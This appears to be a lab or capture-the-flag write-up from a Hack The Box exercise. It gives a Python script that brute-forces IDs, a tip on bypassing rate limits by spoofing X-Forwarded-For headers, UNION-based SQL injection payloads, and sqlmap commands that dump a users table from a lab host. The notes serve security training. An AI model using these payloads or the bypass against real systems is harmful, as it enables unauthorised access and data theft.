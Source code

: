 ```Python
import requests, sys

# define a function called "brute"
def brute():
	try:
		# Define a variable called "range", that goes up to 1000
		value = range(1000)
		# Try every number in the value variable
		for val in value:
			# Define the url variable as what is inputed after `brute_api.py`
			url = sys.argv[1]
			# Define what will be included with each call to the URL - the parameters
			r = requests.get(url + '/?id='+str(val))
			# Test each request to see if `position` is in the response. If it is, print that the number was found and what the number is, as well as the full URI
			if "position" in r.text: 
				print("Number found!", val)
				print(r.text)
	# If the script is called incorrectly, show an error
	except IndexError:
		print("Enter a URL e.g.,: http://$IP:3003")

brute()
```

***TIP: If there is a rate limit in place, you can always try to bypass it through headers such as `X-Forwarded-For`, `X-Forwarded-IP`, etc., or use proxies. These headers have to be compared with an IP most of the time. A possible bypass to whitelist filters could be setting the X-Forwarded-For header and the value to one of the IPs from the array. ***

### Lab Question 2:
#### SQLi detection payload
```
/?id=736373+UNION+SELECT+1,2,3--+-
```
![[SQLi inject payload 1.png]]
#### Enumerate database name, user, and database version
```
/?id=736373+UNION+SELECT+database(),user(),@@version--+-
```
![[database user version inject.png]]
#### Used SQLMap to enumerate database info
```Shell
sqlmap -u http://10.129.202.133:3003/?id=1 --dbs
```
#### Used SQLMap to enumerate tables in `htb` database
```Shell
sqlmap -u http://10.129.202.133:3003/?id=1 -D htb --tables
```
#### Used SQLMap to dump information from `users` table in `htb` database
```Shell
sqlmap -u http://10.129.202.133:3003/?id=1 -D htb -T users --dump
```
Output:
```
Database: htb
Table: users
[4 entries]
+---------+--------------------------------+------------+
| id      | username                       | position   |
+---------+--------------------------------+------------+
```